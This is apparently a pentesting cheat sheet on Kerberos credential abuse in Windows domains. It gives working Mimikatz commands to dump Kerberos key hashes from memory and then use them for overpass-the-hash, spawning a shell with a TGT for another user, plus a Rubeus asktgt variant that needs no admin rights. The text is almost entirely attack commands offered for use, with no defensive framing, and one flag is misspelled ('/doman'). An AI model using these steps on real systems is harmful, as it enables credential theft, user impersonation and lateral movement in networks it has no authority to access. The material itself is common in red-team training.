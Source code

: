 -- -
Use a hash/key for a domain-joined user to get a TGT. 
### Get Key Hashes
```bash
# Extract Kerberos Keys from memory
mimikatz.exe
privilege::debug
sekurlsa::ekeys

# Looking for rc4_hmac_nt and Username
```
### Pass The Key or Overpass the Hash
#### Mimikatz
Does require admin privs
```powershell
mimikatz.exe
privilege::debug

# get new shell w/ TGT applied for user
sekurlsa::pth /domain:<domain> /user:<user from above> /ntlm:<hash from above>
```
#### Rubeus
You can provide the hash for `/rc4`, `/aes128`, `/aes256`, or `/des`. Does not require admin privs
```powershell
Rubeus.exe asktgt /doman:<domain> /user:<user from above> /aes256:<hash from above> 
```